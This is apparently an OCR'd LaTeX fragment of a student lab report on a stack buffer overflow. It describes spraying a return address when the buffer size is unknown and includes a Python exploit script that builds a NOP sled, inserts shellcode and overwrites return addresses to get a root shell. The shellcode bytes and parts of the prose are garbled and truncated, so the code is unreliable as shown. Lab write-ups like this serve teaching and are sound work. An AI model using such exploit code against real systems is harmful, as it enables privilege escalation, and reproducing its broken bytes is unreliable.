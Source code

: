 \documentclass[10pt,\jkfside,a4paper]{article}
\begin{document}
\begin{figure}[H]
\centering
\includegraphics[width=0.6\textwidth]{bufferoverflow}
\caption{Buffer overflow attack yielding a root shell}
\end{figure}

\subsection{Launching Attack without Knowing Buffer Size}

I added a for-loop to  into \texttt{exploit.py} and it worked first try. I
used sprayed the return address over all possible locations -- 25 consecutive
machine words. Whatever size the buffer, the true return address would be
overwritten with our proxy return address. Since my original return address
was before the stack frame, that address did not need changing.

\begin{python}
#!/usr/bin/python3
import sys

shellcode= (
  "\x2f\x2f\x2f"
  "\x6e"
  "\x0b\xcd{}"
).encode('latin-1')

content = bytearray(0x90 for i in range(517))

##################################################################

start = len(content) - len(shellcode) # Change this number
content[start:start + len(shellcode)] = shellcode

ret    = 0xffffca18 + 200 # Change this number
offset = 112              # Change this number

L = 4
for i in range(offset, offset + 100, 4):
  content[i:i + L] = (ret).to_bytes(L,byteorder='little')

##################################################################

with open('badfile', 'wb') as f:
  f.write(content)
\end{python}
\end{document}
